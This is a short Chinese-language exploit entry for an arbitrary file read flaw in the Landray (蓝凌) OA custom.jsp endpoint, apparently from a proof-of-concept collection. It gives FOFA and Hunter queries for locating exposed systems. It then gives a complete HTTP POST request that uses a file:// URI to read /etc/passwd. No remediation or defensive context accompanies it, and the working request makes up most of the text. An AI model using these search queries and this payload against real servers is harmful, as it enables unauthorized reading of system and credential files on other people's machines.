 # 蓝凌OA custom.jsp 任意文件读取漏洞

## 网络测绘

fofa: app="Landray-OA系统"

hunter: app.name="Landray 蓝凌OA"

## POC / EXP

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.1294.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

var={"body":{"file":"file:///etc/passwd"}}
```
